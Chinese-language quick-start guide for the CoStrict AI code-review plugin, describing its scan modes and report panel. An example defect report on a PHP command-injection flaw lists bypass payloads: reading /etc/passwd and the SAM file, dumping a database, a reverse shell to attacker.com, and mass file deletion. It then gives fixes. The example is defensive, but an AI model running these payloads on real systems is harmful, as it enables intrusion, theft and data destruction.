




# 快速上手

CoStrict 代码审查是一款智能化的代码质量检查工具，精准覆盖逻辑缺陷、安全漏洞、静态缺陷和内存问题四大类缺陷，并提供完整的缺陷溯源与可执行的修改建议，让你写代码时更专注、提交变更时更安心。

## 系统要求

| 安装方式 | 版本要求 | 支持平台 |
|---|---|---|
| VSCode 插件 | ≥ 2.1.3 | VSCode |
| JetBrains 插件 | ≥ 2.1.3 | IDEA / PyCharm / WebStorm 等 |
| GitLab | ≥ 10.8.4 | 自托管 GitLab |

## 使用方式

在编码阶段通过 IDE 进行交互式代码扫描，实时辅助开发人员发现并修复代码质量问题。

- 支持对话式交互窗口，随时沟通、快速定位问题
- 可结合业务上下文、编码规范等先验知识，让检测结果更精准
- 展示模型推理过程，让你清楚知道为什么报这个问题

### 扫描方式

#### 方式一：扫描代码文件

在文件浏览器中**右键点击文件**，选择 **CoStrict > 代码审查** 即可对整个文件进行代码扫描。



#### 方式二：扫描代码片段

在编辑器中**选中代码片段**，**右键点击**选择 **代码审查** 即可对选中的代码进行代码扫描。



#### 方式三：扫描代码变更

点击左侧 **CoStrict 小图标**，切换至 **CODE REVIEW** 页面，即可扫描当前工作区的代码变更。


### 扫描报告

触发代码审查后，CODE REVIEW 面板会实时展示扫描进度，扫描时长与审查代码量有关，从几分钟到几十分钟不等。扫描完成后，CODE REVIEW 面板会展示扫描结果。

#### 查看缺陷列表

- **扫描摘要**：扫描的文件数量和发现的问题总数
- **问题列表**：包括文件路径、行号、描述和严重级别，使用颜色条标记严重等级：<span style={{color: '#E53935'}}>**红色（高）**</span>、<span style={{color: '#FDD835'}}>**黄色（中）**</span>、<span style={{color: '#42A5F5'}}>**蓝色（低）**</span>
- **缺陷筛选**：支持按严重程度、缺陷标签等条件筛选



#### 查看缺陷详情

点击问题可在代码编辑区查看详情，对应代码行会被自动定位并高亮显示，下方浮窗展示详细报告。

**缺陷分析** - 分析问题根因、触发条件和利用方式
**业务影响** - 评估安全风险和潜在攻击场景
**改进建议** - 提供可执行的修复方案和参考代码

<details>
<summary>查看完整示例</summary>

## <span style={{color: '#E53935'}}>[高]</span> 命令注入漏洞 - 黑名单过滤不完整导致管道符绕过

### 缺陷分析

**问题根因：** 黑名单过滤机制存在严重设计缺陷

- Line 12: `'| '` → 仅过滤"竖线+空格"组合，单独的 `|` 字符未被过滤
- Line 9: `'||'` → `''` 虽然过滤 `||`，但攻击者可以使用单个 `|` 进行命令注入
- Line 10: `'&'` → `''` 过滤单个 `&`，因此 `&&` 绕过无效（会被拆分过滤）

---

### 触发条件

**攻击者输入：** `127.0.0.1|whoami`（Windows/Linux通用）

**处理过程：**
1. `str_replace()` 处理后，`|` 字符保留（因为没有匹配 `'| '` 模式）
2. 最终执行：`ping 127.0.0.1|whoami`
3. 结果：`whoami` 命令被执行并返回结果

---

### 绕过方式

| 类型 | 示例 |
|------|------|
| 通用绕过 | 使用单个 `|` 管道符 |
| Windows | `127.0.0.1\|dir`、`127.0.0.1\|type C:\Windows\System32\config\SAM` |
| Linux | `127.0.0.1\|cat /etc/passwd`、`127.0.0.1\|id` |

---

### 业务影响

**安全风险：**

- **远程代码执行** - 攻击者可执行任意系统命令
- **完全系统控制** - 获取Web服务器权限后可横向渗透
- **数据窃取** - 读取敏感文件（数据库配置、用户数据、密钥等）
- **权限提升** - 通过系统漏洞提权至root/administrator
- **持久化攻击** - 植入后门、Web Shell、恶意脚本

**攻击场景：**

- 信息收集：`\|cat /etc/passwd` 获取用户列表
- 数据库窃取：`\|mysqldump -u root -p database > dump.sql`
- 反向Shell：`\|bash -i >& /dev/tcp/attacker.com/4444 0>&1`
- 勒索软件：`\|find / -name "*.doc" -exec rm {} \;`

---

### 改进建议

**方案 1：使用白名单验证（推荐）**

```php
if( !preg_match( '/^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$/', $target ) ) {
    die( 'Invalid IP address format' );
}
```

**方案 2：转义危险字符（不推荐，仍可能被绕过）**

```php
$target = escapeshellarg( $target );
$cmd = shell_exec( 'ping ' . $target );
```

**方案 3：移除所有非必要字符**

```php
$target = preg_replace( '/[^0-9.]/', '', $target );
```

</details>


#### 查看缺陷历史记录

点击面板右上角的时钟样式图标，可查看历史扫描记录。历史记录面板包含以下功能：

- **记录列表**：显示所有扫描过的文件和扫描时间
- **缺陷展开**：点击记录可展开查看发现的具体缺陷条目
- **记录管理**：每条记录和缺陷条目都支持删除操作

展开历史记录后，可以在右侧查看该次扫描的代码和缺陷详情。


#### 处置缺陷

缺陷详情卡片右上角提供四个操作按钮：

- **接受**：认可问题，保留代码不变
- **拒绝**：驳回问题，认为非问题或输出有误
- **修复**：应用方案，结合上下文自动修复代码
- **关闭**：关闭详情卡片

你的反馈将帮助 Code Review 功能变得更智能、更准确。



